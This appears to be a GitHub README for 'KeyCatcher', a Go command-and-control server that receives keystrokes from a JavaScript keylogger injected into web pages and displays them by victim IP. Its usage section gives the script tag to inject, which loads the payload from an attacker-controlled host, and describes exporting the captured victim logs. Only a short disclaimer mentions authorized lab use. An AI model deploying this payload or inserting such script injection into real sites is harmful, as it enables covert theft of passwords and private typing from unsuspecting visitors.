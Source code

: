 # 🎯 KeyCatcher – Terminal-Based Keystroke Exfiltration C2

![Language: Go](https://img.shields.io/badge/language-Go-blue.svg)
![License: MIT](https://img.shields.io/badge/license-MIT-green.svg)
![Platform](https://img.shields.io/badge/platform-Linux%20%7C%20macOS%20%7C%20Windows-lightgrey)

**KeyCatcher** is a powerful terminal-based C2 server. It captures keystrokes from compromised webpages and visualizes them in a clean, real-time Terminal UI.
![Demo](keycatcher.gif)

## ✨ Features

- 🚀 **Real-Time Keystroke Capture** : Watch victims type live with zero delay.

- 📊 **Beautiful Terminal UI**  : Built with `tview`, logs are neatly organized by victim IP.

- 💾 **Persistent Storage**  : All keystrokes are stored in `keystrokes.db` (SQLite).

- 📦 **Self-Hosted Payload** : Automatically serves `keylogger.js` for easy deployment.

- 🧠 **Smart Log Parsing**  :  Recognizes and labels special keys like `[BACKSPACE]`, `[ENTER]`, etc.

- ⬇️ **One-Click Data Export**  : Export logs per victim using a single hotkey.

- 💻 **Cross-Platform Support**  : Works on **Linux**, **macOS**, and **Windows**.


## 🛠 How It Works

### 🧩 1. JavaScript Payload (`keylogger.js`)
- Injected into the target page.
- Captures keystrokes using `keydown` events.
- Sends each keypress to the C2 server via `POST /log`.

### 🧠 2. Go C2 Server (`main.go`)
- **HTTP Listener** – Serves the payload and receives data.
- **SQLite Logger** – Stores each keystroke with IP data.
- **TUI Renderer** – Uses `tview` to display victim data and keystrokes in real-time.


## 📋 Requirements

- **Go** version `1.18+` installed.


## 🚀 Installation & Setup

```bash
# 1. Clone the repository

# 2. Change directory
cd keycatcher

# 3. Install dependencies
go mod tidy

# 4. Configure the payload:
Open the keylogger.js file and modify the attackerServer variable to point to the IP address and port of the machine where you will run the KeyCatcher server.
```

# ▶️ Usage

```bash
# 1. Start the KeyCatcher C2 Server Or you can download the executable and run it directly
  go run main.go
# 2. Deploy the Payload:Inject the following script tag into the target webpage. The victim's browser will fetch and execute the payload from your C2 server.
  <script src="http://192.168.1.110:80/keylogger.js"></script>
# 3. Monitor the TUI:
    a. As victims visit the infected page and start typing, their IP addresses will appear in the "Victims" list on the left.
    b. Use the Up/Down arrow keys to select a victim.
    c. The "Keystrokes" pane on the right will display their reconstructed typing in real-time.
    d. Press Ctrl+E to export all captured logs to exfiltrated_data.log.
    e. Press Ctrl+C to quit the application.
```


⚠️ Disclaimer

This tool is intended for educational purposes and for use in authorized security testing scenarios only, such as the OffSec labs. Unauthorized use of this tool to capture keystrokes from individuals without their explicit consent is illegal and unethical. The author is not responsible for any misuse or damage caused by this program.

    

    
